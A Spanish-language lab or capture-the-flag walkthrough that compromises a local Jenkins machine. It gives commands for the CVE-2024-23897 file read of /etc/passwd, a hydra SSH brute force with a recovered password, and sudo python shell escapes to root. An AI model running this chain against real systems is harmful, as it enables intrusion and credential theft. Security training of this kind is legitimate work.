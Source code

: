 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Vemos que tenemos el puerto 8080 con un servibio de web con el protocolo http. Asi que vamos a ver que tiene.
![alt text](image-1.png)

Vemos que muestra un login. Vamos a ver que tecnologias están corriendo en la web. Analizando bien la web, vemos que nos muestra que trata de un programa llamado jenkins, para ello buscaremos el exploit.

```
CVE-2024-23897

exploit: https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897

descargar repositorio:
git clone https://github.com/vulhub/vulhub.git
```
![alt text](image-3.png)

Una vez lo tenemos vamos a usarlo. Pero primero tenemos que descargar el archivo que de la siguiente ruta: `http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar`

```
wget http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```
![alt text](image-4.png)

finalmente vamos a explotarlo.
```
java -jar jenkins-cli.jar -noCertificateCheck -s http://172.17.0.2:8080 -http connect-node "@/etc/passwd"
```
![alt text](image-5.png)

Podemos observar que existe un usuario llamado bobby, así que vamos a hacer un ataque de fuerza bruta para podernos conectar via ssh.
```
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![alt text](image-6.png)

Una vez tenemos las clabes, vamos entrar por ssh.
```
ssh-keygen -R 172.17.0.2

ssh bobby@172.17.0.2
password: chocolate
```
![alt text](image-7.png)

Una vez estamos dentro, vamos a ver si tiene binarios para escalar a root.
```
sudo -l
```
![alt text](image-8.png)

Ahora que tenemos el binario, vamos a escalar a root. Para ello tenemos que pasar por el usuario pinguinito,
```
sudo -u pinguinito /usr/bin/python3
import os
os.system("bash")
```
![alt text](image-9.png)

Una vez hayamos cambiado de usuario, tendremos que volver a ver los binarios con permisios.
```
sudo -l
```
![alt text](image-10.png)

Vemos que nos muestra el mismo binario pero con un archivo python, vamos a ver que contiene.
```
cat /opt/script.py
```
![alt text](image-11.png)

Una vez vemos el contenido del archivo, vamos a modificar el archivo para escalar a root (administrador).
```
chmod 744 /opt/script.py
echo "import os;" > /opt/script.py
echo 'os.system("/bin/bash")' >> /opt/script.py 
sudo /usr/bin/python3 /opt/script.py 
```
![alt text](image-12.png)

![alt text](image-13.png)